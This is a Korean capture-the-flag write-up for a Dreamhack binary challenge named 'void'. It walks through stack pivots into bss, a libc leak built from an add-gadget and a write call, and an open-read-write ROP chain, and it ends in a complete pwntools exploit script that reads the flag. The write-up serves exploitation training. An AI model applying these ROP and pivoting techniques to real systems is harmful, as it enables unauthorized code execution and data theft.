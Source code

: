 익스 코드를 봐도 내가 아니며 코드의 의도를 알 수 없기 때문에 흐름을 써보겠다.
`bof`가 조금 나고 카나리가 없다. 바이너리 pie가 없긴 한데 쓸만한 가젯이 없다. 일단 내가 보기엔 없어보였다. 그래서 `pop rdi` 문제처럼 `bss`에 `libc` 함수를 하나 만들어서 쓴다. 여러 가지가 가능할 거 같아서 어떤 함수를 만들까 고민했는데 간단하게 `write` 함수를 만들어서 `libc` 릭을 할려고 했다.
`write` 함수를 실행할 수 있다고 하자. 그럼 `libc` 함수를 출력해야 하므로 `rdi`, `rsi`, `rdx`를 변경해야 한다. `rdi`는 `main`에서 변조가 가능한데, 나머지 두 개가 문제다. `write` 내부를 보면 다음과 같은 로직이 있다.
```
0x0000000000114a44 <+36>:    mov    QWORD PTR [rsp+0x18],rdx
0x0000000000114a49 <+41>:    mov    QWORD PTR [rsp+0x10],rsi
0x0000000000114a4e <+46>:    mov    DWORD PTR [rsp+0x8],edi
0x0000000000114a52 <+50>:    call   0x90a70
0x0000000000114a57 <+55>:    mov    rdx,QWORD PTR [rsp+0x18]
0x0000000000114a5c <+60>:    mov    rsi,QWORD PTR [rsp+0x10]
0x0000000000114a61 <+65>:    mov    r8d,eax
0x0000000000114a64 <+68>:    mov    edi,DWORD PTR [rsp+0x8]
0x0000000000114a68 <+72>:    mov    eax,0x1
0x0000000000114a6d <+77>:    syscall
```

윗 부분과 아랫 부분이 어떤 행동을 하는지 감이 올 것이다. 여기서 `rdx`랑 `rsi`를 불러오는 `bss`에 값을 입력하고 `write + 46`으로 뛰면 `rsi`, `rdx`를 원하는대로 설정할 수 있다.
근데 이러면
`add dword ptr [rbp - 0x3d], ebx ; nop ; ret`
이 가젯을 4번 써야 한다. 정말 귀찮았다.

`libc` 릭이 끝났다. 이제 `pop rsi ; ret`과 `syscall` 가젯이 있다. 근데 `pop rdi ; ret` 가젯이 없다. 사실 있는데 필자가 이 문제를 8시간 째 푸는 중이라 정신이 없는 상태에서
`ROPgadget --binary libc.so.6 | grep "pop rdx ; ret"`
이렇게만 찾고 없어서 그냥 없다고 착각해버렸다. 그래서 `pop rdx` 가젯 없이 orw 코드를 짜야했다. `open`은 `rdx`를 안 쓰니까 그냥 하고, `bss`에 값을 의도적으로 넣어서 스택 이동을 생각해주면 `main`의 `read`를 방금 열은 `flag`파일을 읽는데 사용하고 다시 `ROP`를 할 수 있게 된다. `write`는 `rdx`가 필요해서
`0x000000000009133b : xor dh, 0x80 ; syscall`
이 가젯을 사용했다. `syscall` 실행 후에 바로 터지던데 어짜피 출력했으므로 상관없다.
`sca`

# exploit

```python
from pwn import *
from time import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./void')
p = remote('host1.dreamhack.games', 10710)
e = ELF('./void')
l = ELF('./libc.so.6')
bss = e.bss() + 0x1000
main = 0x4013C8
leave_ret = 0x40137e

def main_func(num : int, payload : bytes):
    sleep(0.5)
    p.sendline(str(num).encode())
    sleep(0.5)
    p.send(payload)

payload = b'a' * 0x70 + p64(bss + 0x3500) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x2500) + p64(main + 0x32) + p64(bss + 0x1000) + p64(main + 8)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x1500) + p64(main + 0x32) + p64(bss + 0x3510) + p64(leave_ret)
main_func(1, payload)

payload = p64(main + 5) * 14 + p64(bss + 0x500) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x30 + (p64(bss + 0x5d0) + p64(main + 0x32)) + (p64(bss + 0x5e0) + p64(main + 0x32)) + b'a' * 0x10 + (p64(bss + 0x600) + p64(main + 0x32)) + p64(bss + 0x500) + p64(main + 0x1c) + p64(bss + 0x620) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700 + 0x10) + p64(leave_ret)
main_func(1, payload)

payload1 = (l.sym['write'] + 46 - (0x00007f3085641117 - 0x7f308552c000)) & ((1 << 32) - 1)
# 0x000000000040121c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
payload2 = b'a' * 0x70 + p64(0x406488 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x4056e0) + p64(leave_ret)
main_func(1, payload)

payload1 = -0x19999999 & ((1 << 32) - 1)
payload2 = b'a' * 0x70 + p64(0x406494 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x4056f0) + p64(leave_ret)
main_func(1, payload)

payload1 = (main - 0x99999999) & ((1 << 32) - 1)
payload2 = b'a' * 0x70 + p64(0x406490 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x405710) + p64(leave_ret)
main_func(1, payload)

payload1 = 8
payload2 = b'a' * 0x70 + p64(0x4064a8 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(bss + 0x700) + p64(main + 0x1c)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x500) + p64(main + 0x1c) + p64(bss + 0x620) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700 + 0x10) + p64(leave_ret)
main_func(1, payload)

payload1 = e.got['read']
payload2 = b'a' * 0x70 + p64(0x4064a0 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x5c + p32(2 + 0x31337 - 1) + b'a' * 0x10 + p64(0x406480) + p64(leave_ret)
main_func(1, payload)
l.address = u64(p.recvn(8)) - l.sym['read']
print(hex(l.address))

pop_rax = l.address + 0x0000000000045eb0
pop_rdi = l.address + 0x000000000002a3e5
pop_rsi = l.address + 0x000000000002be51
syscall = l.address + 594838
xor_dh_80_syscall = l.address + 0x000000000009133b
ret = 0x000000000040101a

# flag : 0x4074c0
payload = p64(bss + 0x2510) + p64(pop_rdi) + p64(0x4064b8) + p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(2) + p64(syscall) + p64(main + 0x50) + b'a' * 0x20 + (b'flag' + b'\x00' * 4) + p64(0x406450) + p64(leave_ret)
main_func(1, payload)

payload = p64(pop_rdi) + p64(2) + p64(pop_rsi) + p64(0x4074c0) + p64(pop_rax) + p64(1) + p64(xor_dh_80_syscall) + b'a' * 0x38 + p64(0x405fb0 - 8) + p64(leave_ret)
main_func(1, payload)
p.interactive()
```